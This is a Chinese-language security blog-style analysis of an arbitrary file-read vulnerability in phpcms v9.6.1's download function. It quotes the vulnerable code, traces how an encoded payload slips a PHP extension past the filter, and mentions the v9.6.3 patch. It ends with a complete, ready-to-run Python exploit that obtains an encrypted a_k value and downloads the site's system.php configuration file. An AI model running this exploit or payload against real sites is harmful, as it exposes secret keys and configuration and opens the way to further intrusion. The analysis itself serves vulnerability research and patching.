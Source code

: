 phpcms v9.6.1 爆出的任意文件读取漏洞， 来一起分析以下，这次漏洞可以说和9.6.0爆出来的sqli注入漏洞有一些联系，漏洞文件和漏洞利用方法都是一样的，只是这次漏洞点在down.php的download函数


我们定位到漏洞函数`/phpcms/modules/content/down.php` Line 103-127

```php
public function download() {
	$a_k = trim($_GET['a_k']);
	$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
	$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f,$t,$ip);
	$a_k = safe_replace($a_k);
	parse_str($a_k);		
	if(isset($i)) $downid = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	if(!$i || $m<0) showmessage(L('illegal_parameters'));
	if(!isset($t)) showmessage(L('illegal_parameters'));
	if(!isset($ip)) showmessage(L('illegal_parameters'));
	$starttime = intval($t);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
	$fileurl = trim($f);
	if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));	
	$endtime = SYS_TIME - $starttime;
	if($endtime > 3600) showmessage(L('url_invalid'));
	if($m) $fileurl = trim($s).trim($fileurl);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
	//远程文件
	if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) { 
		header("Location: $fileurl");
	} else {
		if($d == 0) {
			header("Location: ".$fileurl);
		} else {
			$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
			$filename = basename($fileurl);
			//处理中文文件
			if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
				$filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
				$filename = urldecode(basename($filename));
			}
			$ext = fileext($filename);
			$filename = date('Ymd_his').random(3).'.'.$ext;
			$fileurl = str_replace(array('<','>'), '',$fileurl);
			file_down($fileurl, $filename);
		}
	}
}
```

这个函数开始几行代码的作用和init函数中的几乎一样，都是从parse_str 解析传入的a_k参数，但这里调用了safe_replace函数过滤。

和文件名有关的参数是$s,$f。 这两个参数都是通过parse_str解析变量得到，然后程序对$f参数过滤，过滤规则如下：

```php
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
$fileurl = trim($f);
```

过滤了一些黑名单，空格以及目录跳跃,之后把$s和$f作为下载文件路径:

    if($m) $fileurl = trim($s).trim($fileurl);


再把拼接后的文件名过滤一次，程序继续运行，来到最关键的一步:

```php
$fileurl = str_replace(array('<','>'), '',$fileurl);
file_down($fileurl, $filename);
```

file_down函数是文件下载函数，调用readfile读取文件，在进入这个函数之前还用了一个`str_replace` 函数去除了大小括号，这就为我们绕过提供了思路，我们只需要构造 php< 或 php> 这样的后缀，就可以绕过正则， 之后被str_replace去掉了括号，就可以下载被过滤的文件后缀了。

a_k 的构造还是通过之前phpcms v9.6.0 sqli 那个构造cookie, 具体流程如下:

![image.png](http://upload-images.jianshu.io/upload_images/2159605-e8383f048af4b625.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

payload 如下:

    &i=1&m=1&d=1&modelid=2&catid=6&s=./phpcms/modules/content/down.ph&f=p%3%252%2*70C

放入src参数中，解后的`$s=./phpcms/modules/content/down.ph`, $f=p%3%252%2*70C


$f 的取值为`p%3%252%2*70C` --safe_replace->  `p%3%252%270C` --safe_replace--> `p%3%2520C` --parse_str--> `p%3%20C`  --safe_replace-->`p%3C`  --> `p<`  --str_replace-->`p`

最后和$s拼接就拼接出来了php，绕过了正则了， 过程也是比较复杂， 但payload构造骚，值得学习。

### 补丁分析
phpcms v9.6.3 修复了该漏洞, 就是在用str_replace函数去掉括号后再用正则过滤了一次。

![image.png](http://upload-images.jianshu.io/upload_images/2159605-26b7ab50da1fdc02.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


写了一个读取system.php配置文件的exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
phpcmsv9.6.0 sqli verify and attach poc
"""

import requests
import re
from urllib import quote

TIMEOUT = 3


def geta_k(url,payload):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    cookies = {}
    #print 'step1'
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
    #print 'step1',step1
    for c in requests.get(step1,timeout=TIMEOUT).cookies:
        if c.name[-7:] == '_siteid':
            cookie_head = c.name[:6]
            cookies[cookie_head + '_userid'] = c.value
            cookies[c.name] = c.value
            break
    else:
        return False
    
    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:',step2,cookies
    for c in requests.get(step2, cookies=cookies, timeout=TIMEOUT).cookies:
        if c.name[-9:] == '_att_json':
            enc_payload = c.value
            return enc_payload
            break
    else:
        return False



def download(url):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    # 以获取system.php配置文件为例，其他文件可以自行修改链接即可,只能下载cms的php文件
    payload = "&i=1&m=1&d=1&modelid=2&catid=6&s=caches/configs/system.ph&f=p%3%252%2*70C"
    a_k =  geta_k(url,payload)

    url3 = url+"/index.php?m=content&c=down&siteid=1&a=init&a_k="+a_k
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0'}
    html = requests.get(url3,headers=headers)
    res = re.findall(r'<a href="(.*?)" class="xzs_btn"></a>',html.content)
    if res[0]:
        downfile = res[0]
    else:
        return False
    url4 = url+'/index.php'+downfile
    rep = requests.get(url4,headers=headers)
    print rep.content



if __name__ == '__main__':
    download('http://localhost/')
```


